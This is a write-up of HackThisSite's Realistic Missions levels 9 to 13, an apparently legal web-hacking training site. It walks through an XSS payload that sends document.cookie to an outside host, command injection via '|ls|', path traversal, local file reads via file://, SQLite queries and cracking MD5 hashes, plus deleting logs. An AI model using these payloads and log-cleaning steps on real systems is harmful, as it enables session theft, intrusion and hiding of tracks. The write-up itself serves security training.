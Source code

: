 ```yaml
---
layout: post
title: HackThisSite - Realistic Missions - Part 2
categories: [Vulnerable Web Applications]
tags: [HackThisSite]

---
```


This is the second part of realistic missions created to be exactly like situations you may face in the real world. 

### LEVEL9
Login with the credentials, then we see interesting cookies that we can steal (XSS injection). Going to https://www.hackthissite.org/missions/realistic/9/pm.php, we can send a message to m-crap (owner) and with this message: javascript:void(window.location='http://hello.com/getcookies.php?'+document.cookie);
Then, we can see: "It's beyond the scope of this mission to check the XSS". And we change the cookies:
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;
and pay.
Right now, we need to clean the logs. We need to find out if there's an option to delete something in any section -> https://www.hackthissite.org/missions/realistic/9/index.php?pages=mailing (Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it).  We see a path to a txt file -> ./files/mailinglist/addresses.txt,  going to previous directories: ./files we find the directory logs. So we change with inspect element that directory by the ./files/logs/logs.txt and then submit it.

### LEVEL10:
In the main page we see: <.a href="staff.php"> where asks to log in as a teacher. In the section, we see a list of teachers and we try to do bruteforce:
username: smiller
password: smiller

And we got this message:
"Welcome, Mrs. Samantha Miller! Please remember that access to the staff administration area is restricted to the district-supplied ‘holy_teacher’ web browser."

Then, we need to change the user-agent to ‘holy_teacher’ and the admin cookie to 1. Finally, we can change grades.

### LEVEL11:
https://www.hackthissite.org/missions/realistic/11/page.pl?page=main -> https://www.hackthissite.org/missions/realistic/11/page.pl?page=|ls|
-> looking through directories, we find this one: https://www.hackthissite.org/missions/realistic/11/client_http_docs/, looking at the sections,we can see the most interesting one: https://www.hackthissite.org/missions/realistic/11/client_http_docs/therightwayradio/?page=main looking at the post, we see that we can modify the id: https://www.hackthissite.org/missions/realistic/11/client_http_docs/therightwayradio/?page=userinfo&id=-1 -> https://www.hackthissite.org/missions/realistic/11/client_http_docs/therightwayradio/?page=userinfo&id=0 we can edit the account (so we can log in to the page with the pass we want) -> https://www.hackthissite.org/missions/realistic/11/client_http_docs/therightwayradio/?page=mod this is the Mod Panel: "SQLite access for moderators has been tightened to read-only due to the recent security breech".
Using the inspect element, we can see this part <.input type="hidden" name="sql_db" value="rwr.dbase"> and we can change the value to ../../../bs.dbase.

Taking into account that it is sqlite we can write as input the following query: SELECT * FROM sqlite_master, as result it shows us a table.  In order to see what it contains, we'll use:  SELECT * FROM web_hosting where we find the admin credentials to log in at https://www.hackthissite.org/missions/realistic/11/admin. 

When we see the table, there is a download section which gives us the url https://www.hackthissite.org/missions/realistic/11/admin/d.pl?file=/var/www/budgetserv/html/client_http_docs/wonderdiet/index.html so we have to modify it:  https://www.hackthissite.org/missions/realistic/11/admin/d.pl?file=/var/www/budgetserv/html/client_http_docs/space46/src.tar.gz


### LEVEL12: 
We get an field to put an address, we try to put file://c:/ -> https://www.hackthissite.org/missions/realistic/12/cgi-bin/internet.pl?url=file%3A%2F%2Fc%3A%2F where we have different directories. Then, using file://c:/WEB/HTML we found a new file (heartlandadminpanel.html) where it's a [login page](https://www.hackthissite.org/missions/realistic/12/heartlandadminpanel.html). 

We check in all sections of the page, which directories can also be used as input: view-source:https://www.hackthissite.org/missions/realistic/12/jsimons/guest.html writing anything the page will direct us to: https://www.hackthissite.org/missions/realistic/12/cgi-bin/guest.pl?action=read&file=guestbook.txt
we modify the file: https://www.hackthissite.org/missions/realistic/12/cgi-bin/guest.pl?action=read&file=heartlandadminpanel.pl where it shows us the credentials in the view-source: $ENV{QUERY_STRING} =~ /^username=jbardus&password=heartlandnetworkadministrator&blocked=/) and then, clean everything.

### LEVEL13: 
We see all the sections that it has to see which could be useful to us. https://www.hackthissite.org/missions/realistic/13/speeches2.php indicates 'This speech is still being edited, as it had many errors because of our ex-typist', it may be interesting. We can see the warnings (errors) looking at the view-source or adding a '?' at the end of the url: https://www.hackthissite.org/missions/realistic/13/speeches2.php?
The following md5 is shown: 21232f297a57a5a743894a0e4a801fc3 that decrypting it gives us 'admin' as a result.

In the url https://www.hackthissite.org/missions/realistic/13/readpress.php we also observed this pass:
$in = "GET /speeches/passwords/" . md5('Speeches') . ""; Speeches encrypted in md5: 7e40c181f9221f9c613adf8bb8136ea8
and go to the directory it indicates: https://www.hackthissite.org/missions/realistic/13/speeches/passwords/7e40c181f9221f9c613adf8bb8136ea8/
where a directory with this content appears: 7bc35830abab8fced52657d38ea048df:21232f297a57a5a743894a0e4a801fc3
and we get moni1:admin. We need to know where we can login, we try with https://www.hackthissite.org/missions/realistic/13/admin/ using the credentials it tells us that "admin" does not match password for "moni1" so we try to put the admin as md5 and then log in: https://www.hackthissite.org/missions/realistic/13/21232f297a57a5a743894a0e4a801fc3/ 
